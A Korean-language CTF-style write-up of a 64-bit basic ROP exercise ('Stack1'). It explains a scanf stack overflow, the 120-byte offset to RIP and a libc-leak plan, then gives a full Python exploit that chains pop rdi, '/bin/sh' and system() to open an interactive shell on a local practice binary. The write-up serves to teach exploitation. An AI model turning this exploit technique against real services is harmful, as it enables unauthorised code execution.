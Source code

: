 # Stack1
### 64bit Basic ROP
***출저를 알 수 없는 그냥 문제입니다.***

사실 tutorial을 풀게 된 이유중 하나가 이 문제 덕분에 풀었었습니다.

풀고 보면 쉬운 문제였는데 괜히 삽질을 했었어요 ㅠㅠ

```
이 문제를 원격으로 실행 시키고 싶으시다면,
socat TCP-LISTEN:9999,reuseaddr,fork,bind=127.0.0.1 EXEC:"./stack1"
위와 같이 socat을 이용하여 열어주시면 됩니다!
```

Stack1 을 실행 시키면, 아래 그림과 같이 입력을 받는 창이 나오고 입력을 한 뒤에는 libc system주소를 뿌려줍니다.

### Main
![Alt text](https://github.com/Funniest/System-study/blob/master/stack1/img/Main.PNG)

### Process
![Alt text]()

Process를 자세히 보면, scanf에서 제한없이 입력을 받아 오버플로우 취약점이 일어나게 됩니다.

sub rsp, 0x70

[rsp+var_70] -> buf는 0x70크기인 것을 알 수 있습니다.

총 크기를 정리하자면 0x70(112) + SFP(8) = 0x78(120)만큼 넣어주면 RIP를 컨트롤 할 수 있습니다.

일단 재가 생각한 시나리오는 아래와 같습니다.
```
1. 처음 아무 값이나 입력하여 info에서 주는 system libc주소를 받아옵니다.
2. system 가젯 및 필요한 가젯들의 offset을 구합니다.
3. 구한 가젯들을 이용하여 익스플로잇합니다.
```
***저는 여기서 system libc주소를 받을 생각을 안하고 한번에 페이로드 쓰려다 시간만 날렸내요 ㅠ_ㅠ***

이제 필요한 가젯들을 구해보면,
```
1. system libc
2. system libc offset
3. pop rdi
4. /bin/sh
```
***64bit에 대한 자세한 글은 tutorial 퓰아룰 작성하며 써놓았으니 참고해주세요!***
***로컬 libc를 보는법 이러던가 콜링 컨벤션 이라던가... 등등..***


***※interact를 꼭 해주셔야 합니다 ㅠ_ㅠ***
### 소스코드
Ubuntu 16 LTS 64 bit환경에서 테스팅 하였습니다.
```
from struct import *
from socket import *
import time
import telnetlib

p = lambda x: pack("<Q", x)
up = lambda x : unpack("<Q", x)[0]

input()

s = socket(AF_INET, SOCK_STREAM)
s.connect(('127.0.0.1', 9999))

bss = 0x601060
poprdi_offset = 0x21102
bin_sh_offset = 0x18c177
offset_system = 0x45390

#leak address
print s.recv(1024)
time.sleep(1)

s.send("1\n")
print s.recv(51)
libc_addr = int(s.recv(14), 16)
print s.recv(12)
libc_system = int(s.recv(14), 16)

print "system : " + str(hex(libc_system))
print "libc : " + str(hex(libc_addr))

libc_addr = libc_system - offset_system

poprdi = libc_addr + poprdi_offset
bin_sh = libc_addr + bin_sh_offset
print "poprdi : " + hex(poprdi)
print "/bin/sh : " + hex(bin_sh)

#testing
print "\n=== testing address ==="
print s.recv(1024)
time.sleep(1)
s.send('1\n')
print s.recv(1024)
time.sleep(1)

#exploit
print "\n=== payload ==="
payload = ''
payload += 'A' * 120
payload += p(poprdi)
payload += p(bin_sh)

payload += p(libc_system)

s.send(payload+"\n")
print s.recv(1024)

t = telnetlib.Telnet()
t.sock = s
t.interact()

s.close()
```
